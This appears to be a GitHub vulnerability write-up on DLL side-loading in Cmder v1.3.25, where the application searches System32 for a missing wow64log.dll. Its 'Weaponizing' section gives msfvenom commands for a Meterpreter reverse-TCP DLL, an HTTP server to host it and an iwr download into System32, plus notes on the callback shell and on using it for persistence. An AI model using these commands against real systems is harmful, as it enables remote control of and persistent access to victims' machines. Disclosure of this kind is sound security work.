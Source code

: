 # Cmder DLL Side-Loading v1.3.25 (Full and Mini Versions)
According to https://cmder.app/ it is:
````
Cmder is a software package created out of pure frustration over the absence of nice
console emulators on Windows. It is based on amazing software, and spiced up with
the Monokai color scheme and a custom prompt layout, looking sexy from the start.
````
- I couldnt agree more, it is a great application and I use it on all my Windows systems.
- This repo details an issue in the Cmder application (Full and Mini Versions) in which a DLL is seached for and not found allowing an attacker the ability to get code execution

## Application Link
- https://cmder.app/
- https://github.com/cmderdev/cmder

## Overview
- In Sysinternals ProcessMonitor we can set three basic filters seen below
````
Process Name is Cmder.exe
Path Ends With .dll
Result is NAME NOT FOUND
````
![image](https://github.com/user-attachments/assets/57aa37ee-1d6a-4ef8-b19f-6aeee77faf46)
- The cmder application (Full version and Mini Version) both search for a dll located under `C:\Windows\System32\wow64log.dll`, however it cannot be found and is not included with Windows.
![image](https://github.com/user-attachments/assets/cc8ae186-ba31-47c4-8f33-2e1b48d3761d)

## Weaponizing
- We can generate a simple msfvenom DLL and place it under `C:\Windows\System32`, naming it `wow64log.dll`
````
# Generate the malicious DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.15.130 LPORT=4444 -f dll -o wow64log.dll
# Host the payload
python3 -m http.server
# Transfer the payload to the victim system
cd C:\Windows\System32
iwr http://kali.space:8000/wow64log.dll -o wow64log.dll
````
- Upon opening the application we will recieve a call back.
- From testing your Meterpreter shell will drop you into `C:\Windows` and your pid will be associated to `rundll32.exe`. Your PPID will no longer be running on the system.
![image](https://github.com/user-attachments/assets/ef851afc-fae9-43a6-bc10-1c52aa2e3a4a)

## Privilege Escalation
- From testing if the Cmder application is run without Administrator permissions you will recieve a shell in the context of your user account.
- If the Cmder application is run WITH Administrator permissions you will recieve a shell in the context of the Admin privileged account.
![image](https://github.com/user-attachments/assets/df922eee-615b-40a2-858f-1e9a1eaed4fd)
![image](https://github.com/user-attachments/assets/a1d8e088-1b7c-4613-a1d3-9695238a939a)

## Notes
- It should be noted that an attacker would require Administrator permissions in order to take advantage of this vulnerability. This is due to the missing DLL being located under `System32`. While this technique does not allow an attacker to priviledge escalate it does provide a potential persistance mechanism. This DLL Side Loading issue allows an attacker to gain code execution anytime the application Cmder is opened.
- When the Meterpreter `wow64log.dll` is loaded onto the system and the `Cmder` application is run we will get our callback HOWEVER the `Cmder` application will not open.
- While you have an open shell on the sytem if the `Cmder` application is run again you will not recieve a second shell. However if you were to migrate to a new process and the `Cmder` application were to be run again, you would recieve a second shell. The `Cmder` application will still fail to open as long as your Meterpreter DLL is on the system. 
